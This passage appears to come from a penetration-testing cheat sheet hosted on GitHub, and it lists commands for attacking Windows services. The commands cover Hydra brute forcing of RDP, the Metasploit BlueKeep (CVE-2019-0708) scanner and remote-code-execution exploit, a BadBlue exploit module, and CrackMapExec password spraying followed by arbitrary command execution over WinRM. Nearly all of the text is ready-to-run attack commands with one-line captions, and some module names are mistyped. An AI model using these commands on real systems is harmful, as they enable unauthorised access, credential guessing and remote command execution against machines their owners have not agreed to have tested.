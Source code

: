 > This will tell whether a specific port is running RDP or not.

```Shell
hydra -L /usr/share/metasploit/common_user.txt -P /usr/share/metasploit/unix_passwords.txt rdp://<ip-address> -s 3333
```

> Command to brute force RDP.

```Shell
xfreerdp /u:administrator /p:<password> /v:<ip-address>:3333
```

> Command can be used to connect to RDP.

#### Exploit Blue Keep:

```msfconsole
use auxiliara/scanner/rdp/cve_2019_0708_bluekeep
show options
set RHOST <ip-address>
run
```

> It is a Blue Keep Vulnerability scanner.

```msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
show options
set RHOST <ip-address>
show target 
set target <target-number>
exploit
```

> Module can be used to exploit the vulnerability and then get access.

#### Exploit Bad Blue

```shell
use exploit/windows/http/badblue_passthru
set RHOSTS <local-IP>
set target BadBlue\ EE\ 2.7\ Universal
run
```

#### Exploiting WinRM:

```Shell
crackmapexec winrm <ip-address> -u administrator -p /usr/share/metasploit/unix_passwords.txt
```

> WinRM brute force command using `crackmapexec`.

```Shell
crackmapexec winrm <ip-address> -u administrator -p <password> -x "<any command>"
```

> This command can be used to execute arbitrary command on the windows machine.
